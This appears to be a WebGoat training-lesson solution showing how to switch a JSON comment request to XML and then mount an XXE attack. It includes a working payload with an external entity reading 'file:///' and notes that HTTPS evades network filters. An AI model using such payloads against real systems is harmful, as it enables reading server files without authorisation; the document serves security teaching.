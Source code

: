 === Assignment solution

The idea behind this assignment is that while it may look that the application is only accepting JSON but if we change the body of the message to XML the framework might process it. When you try entering a comment the body of request will be:

[source, json]
----
{"text":"My first comment"}
----

This is a normal json message, let's try to change the content-type of the request

[source]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

{"text":"My first comment"}
----

this results in the following exception:

[source]
----
javax.xml.bind.UnmarshalException\n - with linked exception:\n[javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,1]\nMessage: Content is not allowed in prolog.
----

Depending on the XML parser you might get a better error message, in this case the message is a bit cryptic, it means that we are not sending valid xml. For example the Jackson library gives the following message:

[source]
----
JSON parse error: Unexpected character '{' (code 123) in prolog; expected
      '<'\n at [row,col {unknown-source}]: [1,1]; nested exception is com.fasterxml.jackson.core.JsonParseException:
      Unexpected character '{' (code 123) in prolog; expected '<'\n at [row,col {unknown-source}]: [1,1]“
----

This error message appears because we are still sending a json message towards the endpoint, so if we intercept and change change the json message to a xml message:

[source]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<text>This is my first message</text>
----

Again an error message from the endpoint:

[source]
----
"javax.xml.bind.UnmarshalException\\n - with linked exception:\\n[com.sun.istack.SAXParseException2; lineNumber: 1; columnNumber: 7; unexpected element (uri:\\\"\\\", local:\\\"text\\\"). Expected elements are <{}comment>]
----

The parser complains that the message is not a valid xml message and needs to be embedded in a `comment` tag:

[source, xml]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<comment><text>This is my first message</text></comment>
----

The endpoint no longer complains and if you refresh the page in WebGoat the posted comments appear. For the attack to work we need to post:

[source, xml]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;This is my first message</text></comment>
----

In some company networks some network devices might drop this payload completely if it was sent over HTTP. In that case no response is returned on the `POST` and the endpoint never receives the request. However, these kind of protections are of limited use, as the same request would pass successfully in an HTTPS setup, where that payload would be encrypted.